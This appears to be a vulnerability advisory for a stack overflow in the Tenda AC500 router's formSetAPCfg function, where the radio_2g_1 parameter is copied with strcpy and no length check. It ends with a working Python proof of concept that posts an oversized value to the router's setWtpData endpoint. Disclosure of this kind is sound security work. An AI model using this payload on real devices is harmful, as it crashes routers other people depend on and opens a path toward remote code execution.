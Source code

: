 # Tenda AC500 formSetAPCfg
### Overview
vendor: Tenda

product: AC500

version: V2.0.1.9(1307)

type: Stack Overflow
### Vulnerability Description
Tenda AC500 V2.0.1.9(1307) were discovered to contain a stack overflow via the radio_2g_1 parameter in the formSetAPCfg function.
### Vulnerability details
In function formSetAPCfg line 124, it reads in a user-provided parameter `radio_2g_1`, and the variable `src` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)
![](images/2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setWtpData'
payload = {
    "radio_2g_1": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```